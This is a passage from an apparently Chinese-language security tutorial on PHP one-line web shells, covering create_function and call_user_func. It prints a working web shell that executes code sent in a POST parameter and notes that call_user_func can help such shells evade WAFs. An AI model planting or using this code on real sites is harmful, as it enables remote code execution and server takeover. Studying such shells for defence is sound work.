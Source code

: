 注意：我们对一句话木马使用的一些 payload，比如 phpinfo() 或者 system('command')，因为不是字符串，所以也就不受版本限制。
![title](https://leanote.com/api/file/getImage?fileId=5da82805ab64416e47002913)

![title](https://leanote.com/api/file/getImage?fileId=5da82871ab64416c4c002aa8)

但是这个限制会在 call_user_func 和 assert 一起使用时候显现。本文后面会具体解释。


 ---------------
 
 
## create_function 函数

在php中，函数create_function主要用来创建匿名函数。

语法：

``` php
string create_function(string $args, string $code)
string $args 变量部分
string $code 方法代码部分
```

注意当我们使用此匿名函数的时候，方法代码部分会被执行。

![title](https://leanote.com/api/file/getImage?fileId=5da7f7afab64416c4c001635)

![title](https://leanote.com/api/file/getImage?fileId=5da7f700ab64416c4c00157e)

构造的一句话木马为：
``` php
<?php
$tmp = create_function('',$_POST['c']);
$tmp();
?>
```

把用户传递的数据生成一个函数 tmp()，然后再执行 tmp()：


![title](https://leanote.com/api/file/getImage?fileId=5da80c00ab64416e47001f42)


 ---------------
 
 
## call_user_func 回调函数

`call_user_func` 这个函数可以调用其它函数，被调用的函数是 `call_user_func` 的第一个函数，被调用的函数的参数是 `call_user_func` 的第二个参数。这样的一个语句也可以完成一句话木马。一些被 waf 拦截的木马可以配合这个函数绕过 waf。

![title](https://leanote.com/api/file/getImage?fileId=5da80e19ab64416e470020a2)

![title](https://leanote.com/api/file/getImage?fileId=5da810b9ab64416e470022c0)

其实所有的一句话木马都由两部分组成：
1. 接收攻击者输入
2. 命令执行函数
